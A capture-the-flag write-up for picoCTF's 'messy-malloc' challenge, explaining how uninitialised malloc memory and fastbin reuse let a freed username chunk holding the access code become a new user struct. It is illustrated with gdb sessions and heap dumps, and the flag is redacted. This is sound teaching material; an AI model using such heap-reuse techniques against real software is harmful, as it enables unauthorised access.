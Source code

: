 # messy-malloc 300 points (pwn, pico, heap, unclear-memory)

Notes:
- source code given: yes
- binary given: yes

### Enumeration
This was my first heap-exploitation challenge. I've spend some time reading through tutorials before I've approached it.

The program itself allows user to perform some basic actions:

![](img/actions.png)

We can see that to obtain the flag we have to login as a user with a correct access code.

```c
void print_flag() { // simplified
  [...] // read flag

  unsigned long ac1 = ((unsigned long *)u->access_code)[0];
  unsigned long ac2 = ((unsigned long *)u->access_code)[1];
  if (ac1 != 0x4343415f544f4f52 || ac2 != 0x45444f435f535345) {
    fprintf(stdout, "Incorrect Access Code: \"");
    return;
  }
  
  puts(flag);
}
```

The user structure is quite simple:

```c
struct user {
  char *username;
  char access_code[ACCESS_CODE_LEN];
  char *files;
};
```

So my first idea was to look for every place where the `access_code` is set.
But here comes the surprice! There is no such place in code! Moreover I couldn't spot any vulnerabilities like buffer overflow etc. Challenge name clearly gives us a hint to look for malloc connected vulnerability. And I've found it. When we call malloc, the memory is not initialized:

![](img/manmalloc.png)

This means that when we call malloc, the returned memory is not nulled. It can contain data from previous usage. Amazing! Now we need to find a way to fill part of memory with correct access code and later on find a way to allocate a `struct user` on this part of memory.

When we look at the commands we can invoke, we see that:

```c
int login() { // simplified
  u = malloc(sizeof(struct user));

  int username_len;
  puts("Please enter the length of your username");
  scanf("%d", &username_len);

  char *username = malloc(username_len+1);
  u->username = username;

  puts("Please enter your username");
  fgets(username, username_len, stdin);
  [...]
}
```

`login` function allocates space for `struct user` and for `username`.

```c
int logout() {
  char *user = u->username;
  if (u == &anon_user) {
    return -1;
  }
  else {
    free(u);
    free(user);
    u = &anon_user;
  }
  return 0;
}
```

while `logout` frees the above allocated memory.

### Exploit
As an attacker we don't control the fields of `struct user`, but we do control the `username`. So the attack is quite simple. Let's first allocate memory for `username` containing the correct access code, then free that memory and finaly allocate a new `struct user` in the same place.

As ` struct user` is 32 byte size the malloc uses `fastbins 32byte` for it, so we need to make our `username` same size.

Let's see our exploit under `gdb`. 

```bash
gdb -q auth
```

We will start with setting breakpoint at `fgets` command which asks for command.

```gdb
gdb-peda$ pd main
[...]
  0x0000000000400d38 <+209>:	mov    esi,0x100
  0x0000000000400d3d <+214>:	call   0x400860 <fgets@plt>
  0x0000000000400d42 <+219>:	test   rax,rax
[...]
End of assembler dump.
gdb-peda$ b *0x0000000000400d3d
Breakpoint 2 at 0x400d3d: file /usr/include/x86_64-linux-gnu/bits/stdio2.h, line 262.
gdb-peda$ c
Continuing.
Commands:
	login - login as a user
	print-flag - print the flag
	logout - log out
	quit - exit the program

Enter your command:
[anon]>
```

Now let's allocate and fill with our access_code the memory using `login` function.
As username length we pass 31 as login function allocates one more byte for null byte. When asked for username we prefix our access_code with 8 bytes of junk. This is because this 8 bytes will be a pointer to username.
```gdb
gdb-peda$ c
Continuing.
login
Please enter the length of your username
31
Please enter your username
AAAAAAAAROOT_ACCESS_CODE
```

Now let's take a look at a heap memory layout.

```gdb
gdb-peda$ vmmap 
[...]
0x00603000         0x00624000         rw-p	[heap]
[...]
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x00000000006036a0	0x0000000000000000
0x603680:	0x0000000000000000	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x4141414141414141	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
0x6036d0:	0x0000000000000000	0x0000000000000000
[...]
```

We can see that [0x603660 - 0x60368f] chunk contains the `user struct`. Block 0x00000000006036a0 is a `char *username` field of a struct pointing to [0x6036a0-0x6036bf] username chunk.

Now let's free that memory so we can later allocate new user in place of username.

```gdb
gdb-peda$ c
logout
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x0000000000000000	0x0000000000000000
0x603680:	0x0000000000000000	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x0000000000603670	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
[...]
```

Note that not much has changed. The memory hasn't been nulled as we expected even though it is now marked as free. We can tell this by observing that
[0x603670-0x603678] now instead of pointer to username contains 0x0000000000000000. This is because when fastbin chunk is unallocated it has `struct malloc_chunk* fd;` poiting to next free chunk. As [0x603660-0x60367f] is a head of a free fastbin 32byte chunk list, the `fd` points to NULL.
The [0x6036a0-0x6036a8] points to 0x0000000000603670 and is a tail of fastbin 32byte chunk list.

Now let's login as a new user and examine the heap.

```gdb
gdb-peda$ c
Continuing.
login
Please enter the length of your username
31
Please enter your username
BBBBBBBBBBBBBBBBBBBBBBBB
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x4242424242424242	0x4242424242424242
0x603680:	0x4242424242424242	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x0000000000603670	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
[...]
```

Can you see how the new `struct user` has been allocated in place of previous `username`?
If not, then use this useful trick (the program has to be compiled with -g flag):

```gdb
gdb-peda$ set $u=(struct user*) 0x6036a0
gdb-peda$ p *$u
$3 = {
  username = 0x603670 'B' <repeats 24 times>, 
  access_code = "ROOT_ACCESS_CODE", 
  files = 0x0
}
```

Now all we have to do is to call a print-flag function:

```gdb
gdb-peda$ c
Continuing.
picoCTF{XXXXXXXXXXXXXXXXX}
```

